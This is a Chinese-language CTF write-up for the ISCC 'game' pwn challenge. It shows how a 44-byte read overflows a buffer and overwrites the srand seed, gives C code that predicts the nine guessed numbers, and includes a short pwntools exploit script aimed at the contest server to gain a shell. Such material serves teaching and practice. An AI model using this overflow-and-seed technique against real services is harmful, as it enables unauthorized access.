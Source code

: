 ```yaml
---
title: ISCC_game
date: 2023-01-02 19:50:26
categories: 
- pwn_wp
tags: 
- pwn
- stackoverflow
- misc
---
```


随机数猜数字的程序，改种子后自己写程序预测出数字。

<!-- more -->

首先查壳，是64位的，没有栈保护，动态链接，NX可执行

这是个猜数字的程序。程序中用函数rand和srand生成随机数。第一次的种子seed=time(0)用srand(seed)生成第二次的种子v3，再用v3生成随机数v7

```c
int v7=rand()%0x64+1;
```
当我们连续9次猜对v7的时候，就会执行flag(),我们就成功了!
但只要有一次猜错，都会执行exit(0)

这题和之前写过的猜数字挺像的
我们发现程序中的read函数有点问题
```c
read (0,&buf,0x2cull)
```
将0x2c(44个字节)的内容读入buf
然而若读入44个字节正好能覆盖掉seed

而如果我们写入值覆盖seed，rand()函数生成的随机数就可以被我们预测出。

此处用aaaa覆盖掉seed的四个字节
aaaa变为整型是0x61616161
通过仿照原程序写代码可以得到每一次要输出的值
```c
#include<stdio.h>
#include<stdlib.h>
int main()
{
	int v3;
	int v7;
	srand(0x61616161);
	for(int i=0;i<=9;i++)
	{
	v3=rand();
	srand(v3);
	v7=rand()%100+1;
	printf("%d\n",v7);
	}
	return 0;
}
```
用gcc编译链接后得到可执行程序，运行后得到：

这些就是9次猜数字的答案

接下来是exp
```python
from pwn import*
r=remote('39.96.88.40',7040)
r.recv()
payload=(0x30-0x4)*'a'
r.sendline(payload)
r.interactive()
```
建立连接后依次输出得到的9个答案
就能得到shell

